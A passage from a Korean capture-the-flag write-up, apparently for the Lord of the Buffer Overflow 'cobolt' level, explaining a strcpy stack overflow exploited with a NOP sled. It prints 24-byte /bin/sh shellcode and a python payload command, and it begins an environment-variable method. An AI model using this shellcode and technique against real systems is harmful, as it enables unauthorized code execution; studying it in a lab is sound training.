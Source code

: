 방법은 연구하기 나름이다.

필자는 1, 2번 방법으로 문제를 풀어 볼 것이다.

- buffer 배열 크기 16byte
- strcpy를 이용하여 argv[1] 인자 값을 buffer 배열로 복사

------

### 0x02. Dyamic Analysis & Exploit



#### 1) RET 아래 스택 영역 이용

```
shell(24byte) = \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```

<img src="http://eliez3r.synology.me/assets/img/writeup/lob/02.cobolt/01.png" width="500px">{:.rounded.shadow}

위 그림처럼 buffer배열과 SFP는 쓰레기 값을 넣고, RET에는 RET 다음 주소를 가리키게 한 뒤 해당 공간에 shellcode를 넣는다.

<br>

shellcode가 들어가는 주소를 알기 위해 core dump를 만들자.

<img src="http://eliez3r.synology.me/assets/img/writeup/lob/02.cobolt/02.png" width="900px">{:.rounded.shadow}

```shell
$ ./aobolt `python -c 'print "A"*16+"BBBB"+"CCCC"+"\x90"*50+"S"*24'`
```

> BBBB는 SFP, CCCC는 RET, '\x90'은 NOP슬라이드, S는 쉘코드가 들어갈 공간(24byte)

<br>

<img src="http://eliez3r.synology.me/assets/img/writeup/lob/02.cobolt/03.png" width="800px">{:.rounded.shadow}

core dump를 살펴보면 우리가 **shellcode를 넣을 공간은 "S"(\x53)가 들어간 공간**이다. NOP를 넣은 이유는 NOP Sliding을 이용하여 쉽게 shellcode에 접근하기 위함으로 NOP(\x90)이 있는 주소 아무곳을 RET주소에 넣으면 NOP를 따라 내려가다가 shellcode를 만나 실행하게 된다.

RET주소에 대략 `0xbffffa6c` 주소 언저리를 넣어주면 될 것 같다.


<img src="http://eliez3r.synology.me/assets/img/writeup/lob/02.cobolt/04.png" width="800px">{:.rounded.shadow}


-----

#### 2) 환경변수 이용

linux 시스템에는 환경변수라는 것이 존재한다. `export` 명령어를 치면 환경변수들이 나타나게 되는데, 이러한 변수들이 프로그램이 동작할 때 마다 스택에 쌓여 하나의 변수처럼 사용되게 된다.

<img src="http://eliez3r.synology.me/assets/img/writeup/lob/02.cobolt/05.png" width="600px">{:.rounded.shadow}

<br>
